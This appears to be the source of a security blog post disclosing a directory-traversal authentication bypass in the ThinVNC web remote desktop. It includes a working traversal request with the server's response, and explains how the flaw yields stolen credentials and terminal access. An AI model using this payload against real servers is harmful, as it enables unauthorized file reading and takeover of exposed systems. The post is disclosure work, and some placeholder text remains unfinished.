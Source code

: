 ```yaml
---
layout: post
title:  "ThinVNC Client Authentication Bypass"
date:   2019-10-15 18:05:55 +0300
image:  ThinVNC/title.png
author-name: jinxbox
tags:   [VNC, Auth Bypass, CVE]
---
```


<h2>Prologue:</h2>
In this blog post, I'll be writing few details about a vulnerability I found in ThinVNC. ThinVNC is a remote desktop client which works on web. I found an arbitrary file read vulnerability through which the authentication set can be bypassed. An attacker can gain remote terminal access abusing this vulnerability.

<h3> ThinVNC Application </h3>
ThinVNC can be downloaded from https://sourceforge.net/projects/thinvnc/ and the source code for this is available at https://github.com/bewest/thinvnc. According to it's author ThinVNC is a pure HTML5 & AJAX Remote Desktop implementation. ThinVNC works on any HTML5-compliant web browser. Users can access a remote PC from any computer or mobile OS; no additional plugin or installation will be required on the client side. 

<h3> Vulnerability Description </h3>
ThinVNC uses Basic Authentication to authenticate a user to access the web VNC interface. Credentials to be used are set on the server side while deploying the VNC server. There is no fixed port on which VNC server runs, you can run the VNC server on any port pre-configured.

A sample authentication screen looks like this:
[photo of auth-1]

When tried with multiple with wrong authentication credentials, it throws a HTTP 401 error. This can be bypassed using the following vector:
<b> /../../../../../../../../../windows/win.ini </b>

<h4>Sample Request:</h4>

GET /admin/../../../../../../../../../../../../../../../../../../../../windows/win.ini HTTP/1.1
Host: 192.168.40.1:5888
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

<h4>Sample Response: </h4>
HTTP/1.1 200
Content-Type: application/binary
Content-Length: 96
Connection: Keep-Alive

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
test
[insert BURP Screenshot here]
<br>

This directory traversal attack vector allows us to read any arbitrary file on the system. We can use the same vector to steal the credentials for the VNC client. Once we steal them, we can use the credentials to compromise the VNC server. Post compromise, we get terminal access to the VNC server.



<h3> POC: </h3>

<h3> ThinVNC in the wild  </h3>
There are roughly 800 accessible ThinVNC servers exposed over internet. 